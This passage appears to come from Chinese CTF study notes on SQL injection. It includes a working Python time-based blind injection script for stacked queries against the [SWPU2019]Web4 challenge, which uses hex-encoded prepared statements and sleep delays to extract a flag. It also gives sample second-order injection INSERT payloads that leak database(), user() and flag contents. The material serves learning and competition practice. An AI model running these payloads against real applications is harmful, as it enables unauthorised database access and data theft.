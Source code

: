 

##### 堆叠注入中的盲注



堆叠注入中的盲注往往是插入sql语句进行时间盲注，就比如 [SWPU2019]Web4 这道题。编写时间盲注脚本：



```python
import requests
import json
import time

def main():
    url = '''xxxxxxxx/index.php?r=Login/Login'''
    #注入payload
    payloads = "asd';set @a=0x{0};prepare ctftest from @a;execute ctftest-- -"
    flag = ''
    for i in range(1,30):
        #查询payload
        payload = "select if(ascii(substr((select flag from flag),{0},1))={1},sleep(3),1)"
        for j in range(0,128):
            #将构造好的payload进行16进制转码和json转码
            datas = {'username':payloads.format(str_to_hex(payload.format(i,j))),'password':'test213'}
            data = json.dumps(datas)
            times = time.time()
            res = requests.post(url = url, data = data)
            if time.time() - times >= 3:
                flag = flag + chr(j)
                print(flag)
                break

def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

if __name__ == '__main__':
    main()
```

这里还涉及到了一些json的内容，json.dumps() 是把python对象转换成json对象的一个过程，生成的是字符串。web服务中传输信息的一种方式。

### 二次注入

##### 二次注入用到的SQL语法知识

1. 通常二次注入的成因会是插入语句，我们控制自己想要查询的语句插入到数据库中再去找一个**能显示插入数据的回显的地方**（可能是登陆后的用户名等等、也有可能是删除后显示删除内容的地方~），恶意插入查询语句的示例如下：

```sql
insert into users(id,username,password,email) values(1,'0'+hex(database())+'0','0'+hex(hex(user()))+'0','123@qq.com')

insert into users(id,username,password,email) values(1,'0'+substr((select hex(hex(select * from flag))),1,10)+'0','123456','123@qq.com')
```
